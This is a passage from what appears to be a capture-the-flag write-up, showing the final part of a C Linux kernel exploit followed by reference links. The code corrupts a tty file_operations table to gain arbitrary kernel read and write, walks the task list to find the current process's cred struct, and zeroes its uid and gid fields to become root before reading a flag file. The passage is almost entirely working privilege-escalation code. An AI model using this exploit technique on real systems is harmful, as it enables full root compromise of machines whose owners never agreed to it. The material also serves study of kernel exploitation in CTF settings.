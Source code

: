 ```c
	*/
	ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
	ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
	ftable[4] = kernel_base + 0xffffffff814191a0 - 0xffffffff80e00000;
	lseek(fd, 0, SEEK_SET);
	Write(fd, ftable, 0x400);
	
	LOG("fops is located at: %p\n", (void *)fops);
	LOG("kernel base: %p\n", (void *)kernel_base);

	pg[3] = heapAddr - 0x800; // memo address
	
	// enjoy arbitrary read and write
	slave_fd = get_ptmx_slave(tty_fd);

	unsigned long cur = init_task, cred;
	unsigned int pid;
	unsigned int this_pid = getpid();
	while(1) {
		pid = read32(cur + PID_OFFSET);
		if (pid == this_pid) {
			cred = read64(cur + CRED_OFFSET);
			LOG("Found current process(pid=%d)'s cred struct %p\n", pid, (void *)cred);
			LOG("original uid=%d, gid=%d. now escalating to root\n", read32(cred + 4), read32(cred + 8));
			write64(0x0, cred + 4);
			write64(0x0, cred + 12);
			write64(0x0, cred + 20);
			write64(0x0, cred + 28);
			LOG("now i am uid=%d\n", getuid());
			break;
		}
		cur = read64(cur + TASKS_OFFSET) - TASKS_OFFSET;
	}
	
	char flag[0x100];
	FILE *fp = fopen("/flag", "r");
	if (!fp) {
		perror("fopen");
		exit(-1);
	}
	fgets(flag, sizeof(flag), fp);
	printf("flag: %s\n", flag);

	return 0;
}
```

### References
https://www.oreilly.com/library/view/linux-device-drivers/0596005903/ch18.html

https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html

https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Race

https://www.usenix.org/node/184468